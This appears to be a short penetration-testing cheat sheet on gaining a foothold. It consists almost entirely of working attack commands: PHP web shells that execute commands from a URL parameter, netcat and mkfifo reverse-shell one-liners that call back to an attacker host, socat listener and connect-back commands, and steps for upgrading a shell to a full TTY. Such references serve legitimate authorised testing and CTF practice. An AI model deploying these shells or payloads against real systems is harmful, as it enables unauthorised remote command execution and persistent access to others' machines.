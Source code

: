 # foothold

## Web shells

- A simple PHP web shell.

```shell
<?php system($_GET['cmd']); ?>
```

```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- The well known pentestmonkey php reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)

- A list of reverse shell payloads [PayloadsAllTheThings GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md).
Common payloads include

```
nc ip 1234 -e /bin/bash
```
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ip 1234 >/tmp/f
```

## Socat

Listener

```shell
socat TCP-L:1234 FILE:`tty`,raw,echo=0 
```

Connect back to listener

```shell
socat TCP:me:1234 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## Netcat

- Stabilize your shell using

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
alias grep='grep --color=auto'
export TERM=xterm
```

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
alias grep='grep --color=auto'
export TERM=xterm
```

depending on Python version available.

- Set up autocomplete. Background the shell using `CTRL + Z` and run 

```shell
stty raw -echo; fg
```
to foreground the shell using tab completion.

